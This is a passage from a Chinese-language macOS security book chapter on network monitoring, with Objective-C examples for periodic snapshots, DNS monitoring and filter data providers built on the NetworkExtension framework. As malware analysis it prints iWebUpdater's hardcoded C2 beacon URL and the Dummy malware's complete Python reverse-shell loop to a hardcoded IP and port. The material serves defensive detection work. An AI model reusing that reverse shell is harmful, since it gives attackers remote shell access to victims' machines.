

<hgroup>

## 7 网络监控

</hgroup>


在本章中，我将描述在 macOS 系统上监控网络活动的各种方法。我将从简单的开始，向你展示如何定期安排网络快照，以便获得主机网络活动的近连续视图。接下来，你将深入了解苹果的*NetworkExtension*框架和 API，它们提供了一种定制操作系统核心网络功能并构建全面网络监控工具的方法。作为一个例子，我将讨论如何利用这个强大的框架构建基于主机的 DNS 监视器和防火墙，能够筛选和阻止特定的活动。

在第四章中，我们在给定的时刻生成了设备网络状态的快照。尽管这种简单的方法可以有效地检测各种恶意行为，但它也有一些局限性。最显著的是，如果恶意软件在快照拍摄时没有访问网络，它将保持未被发现。例如，3CX 供应链攻击中使用的恶意软件每隔一两个小时才发送一次信号。^(1)除非网络快照恰好被计划在这个时间，否则它将错过恶意软件的网络活动。

为了克服这个缺点，我们可以持续监控网络，寻找感染的迹象。收集到的网络数据可以帮助我们随着时间的推移建立正常流量的基准，并为更大的分布式威胁猎捕系统提供输入数据。尽管这些方法比简单的快照工具实现起来更加复杂，但它们提供的网络活动洞察使其成为任何综合恶意软件检测工具中不可或缺的组成部分。

本书不会涉及使用框架进行完整数据包捕获的内容，因为捕获和处理这些数据需要大量资源，因此通常最好直接在网络上而不是在主机上进行这些捕获。此外，完整数据包捕获通常对恶意软件检测来说是过度的。通常，仅仅识别一些未经授权的网络活动，如监听套接字或连接到未知的 API 端点，就足以引起对某个进程（尤其是那些未被识别的进程）的怀疑，并揭示感染。

> 注意

*要使用* NetworkExtension *框架工具，我们必须添加适当的授权，并且必须使用能够在运行时授权这些授权的配置文件构建代码。我不会在这里详细讲解这个过程，因为重点是如何使用框架的核心概念。请参阅第三部分，了解如何获取必要的授权并创建配置文件。*

### 获取定期快照

持续监控网络活动的一个简单方法是重复拍摄当前网络状态的快照。例如，在第四章中，我们使用了苹果的 nettop 工具来显示网络信息。当你运行这个工具时，它似乎会在出现新连接时更新信息。然而，查阅该工具的手册页面会发现，实际上，nettop 并不过是在定期获取网络快照。默认情况下，它每秒拍摄一次快照，尽管你可以使用 -s 命令行选项来更改这个时间间隔。这算是一个真正的网络监控工具吗？不算，但它的方法简单直接，并且假设快照频繁发生，它的监控可能足够全面来检测可疑的网络活动。

为了模拟 nettop，我们可以使用 *NetworkStatistics* 框架来捕获网络活动的快照，调用其 NStatManagerQueryAllSourcesDescriptions API，如第四章中所讨论的那样。然后，我们可以简单地在定期间隔内重新调用这个 API。清单 7-1 中的代码就是这样做的。

```
dispatch_queue_t queue = dispatch_queue_create(NULL, NULL); ❶
dispatch_source_t source = dispatch_source_create(DISPATCH_SOURCE_TYPE_TIMER, 0, 0, queue); ❷

NSUInteger refreshRate = 10;

dispatch_source_set_timer(source, DISPATCH_TIME_NOW, refreshRate * NSEC_PER_SEC, 0); ❸

dispatch_source_set_event_handler(source, ^{ ❹
    NStatManagerQueryAllSourcesDescriptions(manager, ^{
        // Code here will execute when the query is complete.
    });
});

dispatch_resume(source); ❺ 
```

清单 7-1：定期捕获网络状态

代码首先创建一个调度队列 ❶ 和一个调度源 ❷。然后，它通过 dispatch_source_set_timer API ❸ 设置调度源的起始时间和刷新率。为了说明，我们指定了 10 秒的刷新率。这个 API 调用要求使用纳秒为单位的刷新率，因此我们将其乘以 NSEC_PER_SEC，这是一个系统常量，表示一秒中的纳秒数。接下来，我们创建一个事件处理程序 ❹，每次调度源刷新时，它将重新调用 NStatManagerQueryAllSourcesDescriptions API。最后，我们调用 dispatch_resume 函数 ❺ 来启动基于快照的监控。现在，让我们来看一下持续监控。

### DNS 监控

监控 DNS 流量是检测许多类型恶意软件的有效方法。这个方法很简单：无论恶意软件如何感染受害者的机器，它与域名的任何连接，例如与其指挥与控制服务器的连接，都会生成 DNS 请求和响应。如果我们直接在主机上监控 DNS 流量，我们可以做到以下几点：

> **识别使用网络的新进程** 每当发生此活动时，你应该仔细检查这个新进程。用户经常安装访问网络的新软件，出于合法目的，但如果该项目没有进行认证或持续存在，例如，它可能是恶意的。
> 
> **提取进程试图解析的域名** 如果这个域名看起来可疑（可能因为它是由恶意行为者常用的互联网服务提供商托管的），它可能揭示了恶意软件的存在。此外，保存这些 DNS 请求提供了一个系统活动的历史记录，你可以在安全社区发现新恶意软件时查询这些记录，看看，尽管是事后回溯，但是否曾经被感染。
> 
> **检测滥用 DNS 作为数据外泄通道的恶意软件** 由于防火墙通常允许 DNS 流量，恶意软件可以通过有效的 DNS 请求来外泄数据。

仅监控 DNS 流量比监控所有网络活动更高效，但仍然提供了一种揭露大多数恶意软件的方法。例如，看看我在 2023 年初发现的一个恶意更新程序组件。^(2) 这个二进制文件被命名为 iWebUpdater，它将自己持久安装到 *~/Library/Services/iWebUpdate*。然后，它向域 *iwebservicescloud.com* 发送信息，关于感染主机并下载和安装其他二进制文件。在恶意的 *iWebUpdate* 二进制文件中，你可以在地址 0x10000f7c2 处找到这个硬编码的域名：

```
0x000000010000f7c2  db  "https://iwebservicescloud.com/api/v0", 0
```

在其反汇编中，可以看到恶意软件在构建包含感染主机信息的 URL 时引用了这个地址：

```
__snprintf_chk(var_38, var_30, 0x0, 0xffffffffffffffff, "%s%s?v=%d&c=%s&u=
%s&os=%s&hw=%s", "https://iwebservicescloud.com/api/v0", r13, 0x2, r12,
byte_100023f50, rcx, rax); 
```

然后，恶意更新程序通过利用 curl API 尝试连接到 URL。使用流行的网络监控工具 Wireshark，我们可以观察到 DNS 请求和相应的响应（见图 7-1）。



图 7-1：iWebUpdater 解析其更新服务器 IP 地址的网络抓包

尽管防病毒引擎最初没有将该二进制文件标记为恶意，但 *iwebservicescloud.com* 域名有着长期解析到与恶意行为者相关的 IP 地址的历史。如果我们能够将 DNS 数据追溯到 iWebUpdate 二进制文件（我稍后将展示如何做到这一点），我们就可以发现它来自一个未签名的、持久安装的启动代理。可疑！

作为 DNS 监控强大功能的另一个例子，我们再来仔细看看 3CX 供应链攻击。供应链攻击因其难以检测而臭名昭著，而在这个案例中，苹果无意中对被篡改的 3CX 安装程序进行了公证。尽管传统的防病毒软件最初没有将该应用标记为恶意，但利用 DNS 监控功能的安全工具迅速发现了异常，并开始警告用户，随后用户涌向 3CX 论坛，发布诸如“我收到了一个警告……告诉我 3CX 桌面应用程序正在尝试与一个‘高度可疑’的域进行通信，可能是由攻击者控制的。”^(3)

是否有其他启发式方法能够检测到该攻击？可能有，但即便是苹果的公证系统也未能发现它。幸运的是，DNS 监控工具提供了一种方式，能够检测到被篡改的应用程序正在与一个新的、异常的域进行通信，而补救措施很快就限制了这一本可能会造成巨大影响和广泛传播的网络安全事件。

当然，DNS 监控也有其缺点。最明显的是，它无法帮助你检测那些不解析域名的恶意软件，例如仅仅打开监听套接字进行远程连接的简单后门，或者那些直接连接到 IP 地址的恶意软件。虽然这种恶意软件比较少见，但偶尔会遇到。例如，前面提到的简单 Mac 恶意软件 Dummy，会创建一个反向 shell 连接到硬编码的 IP 地址：

```
#!/bin/bash
while :
do
    python -c
        'import socket,subprocess,os;
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("185.243.115.230",1337));
        os.dup2(s.fileno(),0);
        os.dup2(s.fileno(),1);
        os.dup2(s.fileno(),2);
        p=subprocess.call(["/bin/sh","-i"]);'
    sleep 5
done 
```

直接连接到 IP 地址不会生成任何 DNS 流量，因此 DNS 监控无法检测到 Dummy。在这种情况下，你需要一个更全面的*过滤数据提供者*，它能够监控所有流量。本章稍后我会展示如何使用相同的框架和许多与构建简单 DNS 监控工具相同的 API 来构建这样的工具。

#### 使用 NetworkExtension 框架

在 macOS 上监控网络流量曾经需要编写网络内核扩展。苹果随后弃用了这种方法，以及所有第三方内核扩展，并引入了*系统扩展*来替代它。系统扩展在用户模式下运行，更加安全，并提供了一个现代化的机制来扩展或增强 macOS 功能。^(4)

为了扩展核心网络功能，苹果还引入了用户模式的*NetworkExtension*框架。^(5) 通过构建利用该框架的系统扩展，你可以实现与现已弃用的网络内核扩展相同的功能，但这是从用户模式实现的。

系统扩展功能强大，因此苹果要求你在部署扩展之前满足若干先决条件。^(6)

+   你必须将扩展打包在应用程序包的*Contents/Library/SystemExtensions/* 目录中。

+   包含扩展的应用程序必须获得*com.apple.developer.system-extension.install* 权限，并且你必须使用一个配置文件来构建它，这个配置文件提供了在运行时授权该权限的方法。

+   包含扩展的应用程序必须使用 Apple 开发者 ID 签名，并且需要进行公证。

+   包含扩展的应用程序必须安装在合适的*应用程序*目录中。

+   在非托管环境中，macOS 需要明确的用户批准才能加载任何系统扩展。

我将在第十三章中解释如何满足这些要求。正如我在本书的介绍中提到的，你可以关闭系统完整性保护（SIP）和 Apple 移动文件完整性（AMFI）来规避其中的一些要求。然而，禁用这些保护会显著降低系统的整体安全性，因此我建议仅在虚拟机中或专门用于开发或测试的系统上这样做。

接下来，我将简要介绍如何以编程方式安装和加载系统扩展，然后使用*NetworkExtension*框架监控 DNS 流量。此处提供了相关的代码片段，您可以在 Objective-See 的开源*DNSMonitor*项目中找到完整的代码，详细内容见第十三章。^(7)

> 注意

*本节提到的几个 API 最近已被 Apple 废弃，例如在 macOS 15 中。但在本书出版时，它们仍然保留功能。如果您正在为较旧版本的 macOS 开发，仍然需要使用这些 API 以保持兼容性。此外，某些已废弃的函数，如来自 Apple*libresolv*库的函数，缺乏直接替代品，因此在必要时继续使用它们是有意义的。*

#### 激活系统扩展

Apple 要求您将任何系统扩展放置在应用程序包中，因此，安装或*激活*系统扩展的代码也必须位于应用程序中。列表 7-2 展示了如何以编程方式激活此类扩展。

```
#define EXT_BUNDLE_ID @"com.example.dnsmonitor.extension"

OSSystemExtensionRequest* request = [OSSystemExtensionRequest
activationRequestForExtension:EXT_BUNDLE_ID
queue:dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_HIGH, 0)]; ❶

request.delegate = `<object that conforms to the OSSystemExtensionRequestDelegate protocol>`; ❷

[OSSystemExtensionManager.sharedManager submitRequest:request]; ❸ 
```

列表 7-2：安装系统扩展

包含扩展的应用程序应首先调用 OSSystemExtensionRequest 类的 activationRequestForExtension:queue:方法❶，该方法会创建一个激活系统扩展的请求。^(8) 该方法接受扩展的 bundle ID 和一个调度队列，系统会使用该队列来调用委托方法。在提交请求给系统扩展管理器触发激活之前，我们必须先设置一个委托❷。

我们来详细谈谈委托。OSSystemExtensionRequest 对象需要一个*委托对象*，该对象应符合 OSSystemExtensionRequestDelegate 协议，并实现各种委托方法，以处理激活过程中发生的回调以及成功和失败的情况。在激活扩展的过程中，操作系统会自动调用这些委托方法。以下是根据 Apple 文档对这些必需委托方法的简要概述：^(9)

> **requestNeedsUserApproval**: 在系统确定需要用户批准才能激活扩展时调用
> 
> **request:actionForReplacingExtension:withExtension:** 在系统中已安装扩展的另一个版本时调用
> 
> **request:didFailWithError:** 在激活请求失败时调用
> 
> **request:didFinishWithResult:** 在激活请求完成时调用

您的应用程序必须实现这些必需的委托方法。否则，当系统尝试在激活扩展时调用它们时，应用程序将崩溃。

好消息是，实施这些方法并不复杂。例如，`requestNeedsUserApproval:` 方法可以简单地返回，`request:didFailWithError:` 方法也可以如此（尽管你可能希望用它来记录错误信息）。`request:actionForReplacingExtension:withExtension:` 方法可以返回 `OSSystemExtensionReplacementActionReplace` 的值，告诉操作系统替换任何旧的扩展实例。

一旦用户批准了扩展，系统将调用 `request:didFinishWithResult:` 委托方法。如果传入该方法的结果是 `OSSystemExtensionRequestCompleted`，则表示扩展已成功激活。此时，你可以继续启用网络监控。

#### 启用监控

假设系统扩展成功激活，现在你可以指示系统开始通过扩展路由所有 DNS 流量。一个单例的 NEDNSProxyManager 对象可以启用此监控，如列表 7-3 所示。

```
#define EXT_BUNDLE_ID @"com.example.dnsmonitor.extension"

[NEDNSProxyManager.sharedManager loadFromPreferencesWithCompletionHandler:^(NSError*
_Nullable error) { ❶
    NEDNSProxyManager.sharedManager.localizedDescription = @"DNS Monitor"; ❷

    NEDNSProxyProviderProtocol* protocol = [[NEDNSProxyProviderProtocol alloc] init]; ❸
    protocol.providerBundleIdentifier = EXT_BUNDLE_ID;
    NEDNSProxyManager.sharedManager.providerProtocol = protocol;

    NEDNSProxyManager.sharedManager.enabled = YES; ❹

    [NEDNSProxyManager.sharedManager
    saveToPreferencesWithCompletionHandler:^(NSError* _Nullable error) { ❺
        // If there is no error, the DNS proxy provider is running.
    }];
}]; 
```

列表 7-3：通过 NEDNSProxyManager 对象启用 DNS 监控

首先，我们必须通过调用 NEDNSProxyManager 类的共享管理器的 `loadFromPreferencesWithCompletionHandler:` 方法 ❶ 来加载当前的 DNS 代理配置。这个方法只有一个参数，即一个块（block），该块会在加载完偏好设置后调用。

调用回调后，我们可以配置偏好设置以启用 DNS 监控。首先，我们设置一个描述 ❷，该描述将显示在操作系统的系统设置应用中，系统设置应用可以展示所有激活的扩展。然后，我们分配并初始化一个 NEDNSProxyProviderProtocol 对象，并设置其捆绑 ID ❸。接下来，我们通过将 NEDNSProxyManager 对象的共享管理器的 `enabled` 实例变量设置为 YES ❹ 来表示我们已开启 DNS 监控。

最后，我们调用共享管理器的 `saveToPreferencesWithCompletionHandler` 方法来保存更新后的配置信息 ❺。一旦调用此方法，系统扩展应已完全激活，操作系统将开始通过它代理 DNS 流量。

#### 编写扩展

当我们请求激活系统扩展并开启网络扩展时，系统会将扩展从应用的捆绑包复制到一个安全的、根用户拥有的目录中，*/Library/SystemExtension*。在验证扩展后，系统会将其加载并作为独立进程执行，且运行时拥有根权限。

现在我们已经从应用内激活了扩展，让我们来看看扩展本身的代码。列表 7-4 开始了扩展的部分内容。

```
int main(int argc, const char* argv[]) {
    [NEProvider startSystemExtensionMode];
    ...
 dispatch_main();
} 
```

列表 7-4：网络扩展的初始化逻辑

在扩展的主函数中，我们调用 NEProvider 的 `startSystemExtensionMode` 方法来“启动网络扩展机制”。^(10) 我还建议调用 `dispatch_main`，否则主函数将返回，导致扩展退出。

在幕后，`startSystemExtensionMode` 方法会使 *NetworkExtension* 框架实例化在扩展的 *Info.plist* 文件中，NetworkExtension 字典下的 NEProviderClasses 键指定的类：

```
<key>NetworkExtension</key>
<dict>
    ...
    <key>NEProviderClasses</key>
    <dict>
        <key>com.apple.networkextension.dns-proxy</key>
        <string>DNSProxyProvider</string>
    </dict>
</dict> 
```

你必须创建这个类，并随意命名。这里，我们选择了名称 `DNSProxyProvider`，因为我们关心的是代理 DNS 流量，所以我们使用了键值 `com.apple.networkextension.dns-proxy`。此类必须继承自 `NEProviderClass` 类或其子类之一，如 `NEDNSProxyProvider`：

```
@interface DNSProxyProvider : NEDNSProxyProvider
    ...
@end 
```

此外，该类必须实现 *NetworkExtension* 框架将调用的相关委托方法，例如处理 DNS 网络事件。这些委托方法包括以下内容：

```
startProxyWithOptions:completionHandler:
stopProxyWithReason:completionHandler:
handleNewFlow: 
```

`start` 和 `stop` 方法为你提供了执行必要初始化或清理工作的机会。你可以在 *NEDNSProxyProvider.h* 文件中或通过苹果开发者文档中的 NEDNSProxyProvider 类了解更多信息。^(11)

*NetworkExtension* 框架会自动调用 `handleNewFlow:` 委托方法来传递网络数据，因此该方法应包含 DNS 监控器的核心逻辑。该方法会在有 *flow* 时被调用，*flow* 表示在源和目标之间传输的网络数据单元。

NEAppProxyFlow 对象封装了传递给 `handleNewFlow:` 的流，以提供网络数据的接口。由于 DNS 流量通常通过 UDP 传输，因此这个示例仅专注于 UDP 流，UDP 流的类型是 `NEAppProxyUDPFlow`，它是 `NEAppProxyFlow` 的子类。在 第十三章 中，我将详细介绍代理 UDP 流量的步骤，但现在我们只考虑与 DNS 数据包交互的过程。

##### 解析 DNS 请求

我们可以从一个 NEAppProxyUDPFlow 流对象中读取，以获取特定 DNS 请求（或在 DNS 术语中称为 *question*）的报文列表。每个数据报文都存储在一个 NSData 对象中；Listing 7-5 解析并打印这些报文。

```
#import <dns_util.h>
...

[flow readDatagramsWithCompletionHandler:^(
NSArray* datagrams, NSArray* endpoints, NSError* error) {
    for(int i = 0; i < datagrams.count; i++)  {
        NSData* packet = datagrams[i];

        dns_reply_t* parsedPacket = dns_parse_packet(packet.bytes, (uint32_t)packet.length); ❶
        dns_print_reply(parsedPacket, stdout, 0xFFFF); ❷
        ...
        dns_free_reply(parsedPacket); ❸
    }
    ...
}]; 
```

Listing 7-5：读取并解析 DNS 数据报文

我们通过 `dns_parse_packet` 函数❶ 解析数据包，该函数位于苹果的 *libresolv* 库中。然后我们通过调用 `dns_print_reply` 函数❷ 打印数据包。最后，通过 `dns_free_reply` 函数❸ 释放它。

当然，你可能希望你的程序检查 DNS 请求，而不仅仅是打印它。你可以检查由 `dns_parse_packet` 函数返回的解析后的 DNS 记录，该记录的类型为 `dns_reply_t`。例如，Listing 7-6 展示了如何访问请求的完全限定域名（FQDN）。

```
NSMutableArray* questions = [NSMutableArray array];

for(uint16_t i = 0; i < parsedPacket->header->qdcount; i++) { ❶
    NSMutableDictionary* details = [NSMutableDictionary dictionary];
    dns_question_t* question = parsedPacket->question[i];

    details[@"Question Name"] =
    [NSString stringWithUTF8String:question->name]; ❷

    details[@"Question Class"] =
 [NSString stringWithUTF8String:dns_class_string(question->dnsclass)];

    details[@"Question Type"] =
    [NSString stringWithUTF8String:dns_type_string(question->dnstype)];

    [questions addObject:details]; ❸
} 
```

Listing 7-6：从解析后的 DNS 请求中提取感兴趣的成员

我们利用 DNS 数据包的 qdcount 和 question 成员来遍历每个问题 ❶。对于每个问题，我们提取它的名称（要解析的域名）❷、其类别和类型；将它们转换为字符串（通过 Apple 的 dns_class_string）；并将它们保存到字典对象中。最后，我们将每个问题提取的详细信息字典保存到一个数组 ❸ 中。

现在，如果你通过 nslookup 进行查询，例如查询 *objective-see.org*，DNS 监控代码将捕获到请求：

```
# **/Applications/DNSMonitor.app/Contents/MacOS/DNSMonitor**
{
  "Process" : {
    "processPath" : "\/usr\/bin\/nslookup",
    "processSigningID" : "com.apple.nslookup",
    "processID" : 5295
  },
  "Packet" : {
    "Opcode" : "Standard",
    "QR" : "Query",
    "Questions" : [
      {
        "Question Name" : "objective-see.org",
        "Question Class" : "IN",
        "Question Type" : "A"
      }
    ],
    "RA" : "No recursion available",
    "Rcode" : "No error",
    "RD" : "Recursion desired",
    "XID" : 36565,
    "TC" : "Non-Truncated",
    "AA" : "Non-Authoritative"
  }
} 
```

接下来，我们将处理 DNS 回应（称为 *答案*）。

##### 解析 DNS 回应

利用 NEDNSProxyProvider 类的 DNS 监控器本质上是一个代理，它代理本地请求和远程回应。这意味着我们必须读取本地流的 DNS 请求，然后打开远程连接并将请求发送到其目标。为了访问任何回应，我们使用 nw_connection_receive API 从远程端点读取数据。Listing 7-7 在远程端点上调用此 API，然后在其回调块中调用 dns_parse_packet 来解析回应。

```
nw_connection_receive(connection, 1, UINT32_MAX,
^(dispatch_data_t content, nw_content_context_t context,
bool is_complete, nw_error_t receive_error) {
    NSData* packet = (NSData*)content;
    dns_reply_t* parsedPacket =
    dns_parse_packet(packet.bytes, (uint32_t)packet.length);

    dns_free_reply(parsedPacket);
    ...
}); 
```

Listing 7-7：接收和解析 DNS 回应

尽管我们可以使用 dns_print_reply 函数直接打印回应，但我们更倾向于提取答案。你会注意到，这段代码（见 Listing 7-8）与提取问题的代码片段类似。

```
NSMutableArray* answers = [NSMutableArray array];

for(uint16_t i = 0; i < parsedPacket->header->ancount; i++) { ❶
    NSMutableDictionary* details = [NSMutableDictionary dictionary];
    dns_resource_record_t* answer = parsedPacket->answer[i]; ❷

    details[@"Answer Name"] = [NSString stringWithUTF8String:answer->name];
    details[@"Answer Class"] = [NSString stringWithUTF8String:dns_class_string(answer->
    dnsclass)];
    details[@"Answer Type"] = [NSString stringWithUTF8String:dns_type_string(answer->dnstype)];
    switch(answer->dnstype) { ❸
        case ns_t_a: ❹
            details[@"Host Address"] = [NSString stringWithUTF8String:inet_ntoa(answer->
            data.A->addr)]; ❺
            break;
        ...
    }
    [answers addObject:details];
} 
```

Listing 7-8：从解析后的 DNS 回应中提取感兴趣的成员

但在这里，我们访问 ancount ❶ 和 answer 成员 ❷，然后必须添加额外的逻辑来提取回应的内容。例如，我们检查它的类型 ❸，如果是 IPv4 地址（ns_t_a）❹，则通过 inet_ntoa 函数 ❺ 转换它。

如果我们运行 Objective-See 的 DNSMonitor，它包含了这段代码并且已获得适当的授权和认证，我们可以看到它会捕获到我们之前查询 *objective-see.org* 的答案：

```
# **/Applications/DNSMonitor.app/Contents/MacOS/DNSMonitor**
{
  "Process" : {
 "processPath" : "\/usr\/bin\/nslookup",
    "processSigningID" : "com.apple.nslookup",
    "processID" : 51021
  },
  "Packet" : {
    "Opcode" : "Standard",
    "QR" : "Reply",
    "Questions" : [
       {
        "Question Name" : "objective-see.org",
        "Question Class" : "IN",
        "Question Type" : "A"
       }
    ],
    "Answers" : [
      {
        "Name" : "objective-see.org",
        "Type" : "IN",
        "Host Address" : "185.199.110.153",
        "Class" : "IN"
      },
      {
        "Name" : "objective-see.org",
        "Type" : "IN",
        "Host Address" : "185.199.109.153",
        "Class" : "IN"
      },
      ...
    ],
    ...
  }
} 
```

数据包类型是包含原始问题和答案的回应。我们还了解到，域名 *objective-see.org* 映射到多个 IP 地址。当与实际恶意软件一起运行时，这些信息可以非常有用。以前面提到的 iWebUpdater 为例。当它连接到 *iwebservicescloud.com* 时，它会生成一个 DNS 请求和回应：

```
# **/Applications/DNSMonitor.app/Contents/MacOS/DNSMonitor**
 {
  "Process" : {
    "processPath” : "\/Users\/user\/Library\/Services\/iWebUpdate",
    "processSigningID" : nil,
    "processID" : 51304
   },
  "Packet" : {
    "Opcode" : "Standard",
    "QR" : "Query",
    "Questions" : [
      {
        "Question Name" : "iwebservicescloud.com",
        "Question Class" : "IN",
        "Question Type" : "A"
 }
    ],
    ...
  }
},{
  "Process" : {
    "processPath" : "\/Users\/user\/Library\/Services\/iWebUpdate",
    "processSigningID" : nil,
    "processID" : 51304
  },
  "Packet" : {
    "Opcode" : "Standard",
    "QR" : "Reply",
    "Questions" : [
      {
        "Question Name" : "iwebservicescloud.com",
        "Question Class" : "IN",
        "Question Type" : "A    "
      }
    ],
    "Answers" : [
      {
        "Name" : "iwebservicescloud.com",
        "Type" : "IN",
        "Host Address" : "173.231.184.122",
        "Class" : "IN"
      }
    ],
    ...
  }
} 
```

DNS 监控代码能够检测到解析请求和回应。将其中任何一个传递到外部威胁情报平台（如 VirusTotal），应该能显示该域名有历史记录解析到与恶意活动相关的 IP 地址（包括它解析到的具体 IP 地址）。

精明的读者可能已经注意到，输出结果还识别出 iWebUpdater 是发出此请求的进程。现在我们来看看如何做。

##### 识别责任进程

确定负责 DNS 请求的进程对于检测恶意软件至关重要，但非主机式的 DNS 监控无法提供此信息。例如，来自受信任系统进程的请求很可能是安全的，而来自某些持久的、未经过 notarize 处理的进程（如 iWebUpdate）的请求则应当受到密切审查。

现在，我将向你展示如何使用 *NetworkExtension* 框架提供的信息获取负责进程的 ID。通过 handleNewFlow: 委托方法传递到扩展中的流对象包含一个名为 metaData 的实例变量，其类型为 NEFlowMetaData。查看 *NEFlowMetaData.h* 文件（位于 *NetworkExtension.framework/Versions/A/Headers/*）可以发现，它包含一个名为 sourceAppAuditToken 的属性，存储着负责进程的审计令牌。

从这个审计令牌中，我们可以提取负责进程的 ID，并通过 SecCode* APIs 安全地获取其路径。列表 7-9 实现了这一技术。

```
CFURLRef path = NULL;
SecCodeRef code = NULL;
audit_token_t* auditToken = (audit_token_t*)flow.metaData.sourceAppAuditToken.bytes; ❶

pid_t pid = audit_token_to_pid(*auditToken); ❷

SecCodeCopyGuestWithAttributes(NULL, (__bridge CFDictionaryRef _Nullable)(@{(_bridge
NSString*)kSecGuestAttributeAudit:flow.metaData.sourceAppAuditToken}), kSecCSDefaultFlags,
&code); ❸

SecCodeCopyPath(code, kSecCSDefaultFlags, &path); ❹

// Do something with the process ID and path.

CFRelease(path);
CFRelease(code); 
```

列表 7-9：从网络流中获取负责进程的 ID 和路径

首先，我们初始化一个指向审计令牌的指针。如前所述，sourceAppAuditToken 包含以 NSData 对象形式存储的令牌。为了获取指向审计令牌实际字节的指针，我们使用 NSData 类的 bytes 属性 ❶。通过这个指针，我们可以通过 audit_token_to_pid 函数提取相关的进程 ID ❷。接下来，我们从审计令牌中获取代码引用 ❸，然后调用 SecCodeCopyPath 函数来获取进程的路径 ❹。

值得注意的是，SecCodeCopyGuestWithAttributes API 可能会失败，例如，如果进程已经自我删除。在这种情况下，虽然比较罕见，但可能表明这是一个恶意进程。无论如何，你必须依赖其他不那么确定的方法来获取进程的路径，比如检查进程的参数，这些参数可能会被偷偷修改。

从流中，我们还可以提取负责进程的代码签名标识符，这有助于将进程分类为良性进程或需要进一步调查的进程。这个标识符位于流的 sourceAppSigningIdentifier 属性中。列表 7-10 提取了它。

```
NSString* signingID = flow.metaData.sourceAppSigningIdentifier;
```

列表 7-10：从网络流中提取代码签名信息

如本章早些时候所述，我迄今为止描述的 DNS 监控进程无法检测到直接连接到 IP 地址的恶意软件，例如 Dummy。为了检测这些威胁，让我们扩展监控能力，检查所有网络流量。  ### 数据过滤提供者

macOS 提供的最强大网络监控功能之一就是*过滤数据提供者*。这些网络扩展实现于系统扩展中，并建立在*NetworkExtension*框架之上，可以观察并过滤所有网络流量。你可以利用它们主动阻止恶意网络流量，或者被动地观察所有网络流量，并识别可能的可疑进程，以进一步调查。

有趣的是，当 Apple 引入过滤数据提供者以及其他网络扩展时，它最初决定将各种系统组件生成的流量排除在过滤之外，尽管这些流量之前是通过现在已废弃的网络内核扩展进行路由的。这意味着，之前能观察到所有网络流量的安全工具（如网络监视器和防火墙）现在对其中的一部分流量视而不见。不出所料，滥用这些被豁免的系统组件变得很容易，为绕过任何基于 Apple 网络扩展构建的第三方安全工具提供了一种隐蔽的方法。在我展示了这个绕过方法后，媒体纷纷报道这一事件，^(12)，公众的强烈反应促使 Apple 重新审视其做法。最终，库比蒂诺的智者们取得了胜利；如今，macOS 上的所有网络流量都会通过任何已安装的过滤数据提供者进行路由。^(13)

> 注意

*与 DNS 监视器一样，我们将在这里实现的过滤数据提供者网络扩展必须满足“使用 NetworkExtension 框架”中讨论的前提条件，见第 159 页。*

本节中的代码大部分来自 Objective-See 的流行开源防火墙 LuLu，由我本人编写。你可以在其 GitHub 代码库中找到 LuLu 的完整代码，[*https://<wbr>github<wbr>.com<wbr>/objective<wbr>-see<wbr>/LuLu*](https://github.com/objective-see/LuLu)。

#### 启用过滤

让我们首先通过编程方式激活一个实现过滤数据提供者的网络扩展。这个过程与激活实现 DNS 监控的网络扩展略有不同；我们将使用 NEFilterManager 对象，而不是 NEDNSProxyManager 对象。

在主应用程序中，使用“激活系统扩展”中描述的过程，在第 160 页激活扩展，然后按照列表 7-11 所示启用过滤。

```
[NEFilterManager.sharedManager loadFromPreferencesWithCompletionHandler:^(NSError*
_Nullable error) { ❶
    NEFilterProviderConfiguration* config = [[NEFilterProviderConfiguration alloc] init]; ❷

    config.filterPackets = NO; ❸
    config.filterSockets = YES;

    NEFilterManager.sharedManager.providerConfiguration = config; ❹

 NEFilterManager.sharedManager.enabled = YES;

    [NEFilterManager.sharedManager
    saveToPreferencesWithCompletionHandler:^(NSError* _Nullable error) { ❺
        // If there is no error, the filter data provider is running.
    }];
}]; 
```

列表 7-11：使用 NEFilterManager 对象启用过滤

首先，我们访问 NEFilterManager 共享管理器对象，并调用它的 loadFromPreferencesWithCompletionHandler: 方法 ❶。完成后，我们初始化一个 NEFilterProviderConfiguration 对象 ❷。然后我们设置两个配置选项 ❸。由于我们不打算过滤数据包，所以将此选项设置为 NO。另一方面，我们希望过滤套接字活动，因此将其设置为 YES。代码随后保存这个配置并将 NEFilterManager 共享管理器对象设置为启用 ❹。最后，为了激活带有此配置的网络扩展，代码调用共享管理器的 saveToPreferencesWithCompletionHandler: 方法 ❺。这个过程完成后，过滤数据提供者应该开始运行。

#### 编写扩展

与 DNS 监视器类似，过滤数据提供者是一个独立的二进制文件，必须打包在捆绑包的 *Contents/Library/SystemExtensions/* 目录中。加载后，它应该调用 NEProvider 的 startSystemExtensionMode: 方法。在扩展的 *Info.plist* 文件中，我们添加一个字典，通过键 NEProviderClasses 引用，包含一个键值对 (列表 7-12)。

```
<key>NEProviderClasses</key>
<dict>
    <key>com.apple.networkextension.filter-data<\d>/key>
    <string>FilterDataProvider</string>
</dict>
... 
```

列表 7-12：扩展的 Info.plist 文件，指定扩展的 NEProviderClasses 类

我们将键设置为 com.apple.networkextension.filter-data，值设置为我们扩展中继承自 NEFilterDataProvider 的类的名称。在此示例中，我们将类命名为 FilterDataProvider，并按此方式声明它 (列表 7-13)。

```
